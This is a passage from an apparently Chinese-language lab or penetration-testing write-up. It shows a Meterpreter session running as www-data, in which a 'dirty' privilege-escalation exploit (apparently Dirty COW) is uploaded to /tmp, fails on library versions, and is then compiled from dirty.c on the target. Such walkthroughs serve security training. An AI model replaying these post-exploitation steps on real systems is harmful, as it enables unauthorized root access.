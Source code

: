 在目标上无法执行该二进制文件。

```
meterpreter > getuid
Server username: www-data
meterpreter > upload /root/Downloads/dirty
[*] uploading  : /root/Downloads/dirty -> dirty
[-] core_channel_open: Operation failed: 1
meterpreter > cd /tmp
meterpreter > upload /root/Downloads/dirty
[*] uploading  : /root/Downloads/dirty -> dirty
[*] Uploaded -1.00 B of 17.27 KiB (-0.01%): /root/Downloads/dirty -> dirty
[*] uploaded   : /root/Downloads/dirty -> dirty
meterpreter > shell
Process 4881 created.
Channel 3 created.
/bin/bash -i
www-data@ubuntu:/tmp$ ls -al
ls -al
total 132
drwxrwxrwt  5 root     root      4096 Oct 27 20:52 .
drwxr-xr-x 23 root     root      4096 Oct 27 18:07 ..
drwxrwxrwt  2 root     root      4096 Oct 27 19:13 VMwareDnD
-rw-rw-r--  1 www-data www-data 17688 Oct 27 20:52 dirty
-rwxrwxr-x  1 www-data www-data 90917 Oct 27 20:23 linux-exploit-suggester.sh
drwx------  2 root     root      4096 Oct 27 19:13 vmware-root
drwx------  2 root     root      4096 Oct 27 19:13 vmware-root_1389-3980363888
www-data@ubuntu:/tmp$ chmod +x dirty    
chmod +x dirty
www-data@ubuntu:/tmp$ ./dirty
./dirty
./dirty: /lib/x86_64-linux-gnu/libcrypt.so.1: version `XCRYPT_2.0' not found (required by ./dirty)
./dirty: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found (required by ./dirty)
```

直接将c文件上传到目标，在目标上进行编译。

```
meterpreter > ls
Listing: /tmp
=============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
041777/rwxrwxrwx  4096   dir   2022-10-27 22:13:45 -0400  VMwareDnD
100664/rw-rw-r--  5006   fil   2022-10-27 23:55:52 -0400  dirty.c
100775/rwxrwxr-x  90917  fil   2022-10-27 23:23:42 -0400  linux-exploit-suggester.sh
040700/rwx------  4096   dir   2022-10-27 22:13:45 -0400  vmware-root
040700/rwx------  4096   dir   2022-10-27 22:13:45 -0400  vmware-root_1389-3980363888
meterpreter > shell
Process 9057 created.
Channel 1 created.
/bin/bash -i
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ ls -al
ls -al
total 136
drwxrwxrwt  5 root     root      4096 Oct 27 21:03 .
drwxr-xr-x 23 root     root      4096 Oct 27 18:07 ..
drwxrwxrwt  2 root     root      4096 Oct 27 19:13 VMwareDnD
-rwxrwxr-x  1 www-data www-data 14116 Oct 27 21:03 dirty
-rw-rw-r--  1 www-data www-data  5006 Oct 27 20:55 dirty.c
-rwxrwxr-x  1 www-data www-data 90917 Oct 27 20:23 linux-exploit-suggester.sh
drwx------  2 root     root      4096 Oct 27 19:13 vmware-root
```